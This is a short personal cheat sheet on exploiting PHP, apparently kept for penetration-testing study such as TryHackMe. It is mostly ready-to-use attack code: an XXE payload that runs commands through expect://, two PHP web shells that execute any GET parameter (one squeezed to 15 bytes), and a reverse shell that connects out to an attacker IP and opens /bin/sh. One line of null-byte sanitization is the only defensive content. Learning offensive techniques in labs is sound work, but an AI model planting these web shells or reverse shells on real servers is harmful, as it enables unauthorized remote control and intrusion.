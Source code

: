 # Exploiting PHP

author:: Nathan Acks  
date:: 2022-07-11

## RCE via XXE

RCE through XEE is apparently rare, but can be achieved via the PHP expect module.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

## The Poison Null Byte

PHP string parsing is susceptible to the poison null byte.

The best way to defend against these attacks is to simply sanitize strings by explicitly removing any null bytes they contain.

```php
$sanitized_string = str_replace(chr(0), '', $original_string);  
```

## Web-Based RCE

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

A slightly spruced-up version of this is available on Kali Linux as `/usr/share/webshells/php/simple-backdoor.php`.

On space-constrained systems, you can compact this down to just 15 bytes:

```php
<?=`$_GET[1]`?>
```

## Reverse Shell

Check out `/usr/share/webshells/php/php-reverse-shell.php` on Kali Linux. Note that this only works on UNIX-like systems.

Alternately, a *very* simple shell (suitable for running at the command line):

```php
$attacker_ip = "10.0.0.1";
$attacker_port = 1234;

$sock = fsockopen($attacker_ip, $attacker_port);

exec("/bin/sh -i <&3 >&3 2>&3");
```

Catch it with netcat or socat.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
* [Common PHP attacks: Poison Null Byte](https://defendtheweb.net/article/common-php-attacks-poison-null-byte)
* [XXE (XML External Entity) Attacks](xml-external-entity-attacks.md)
* [The Poison Null Byte](poison-null-byte.md)
* [Podalirius on Twitter](https://twitter.com/podalirius_/status/1488921781637365771)
* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
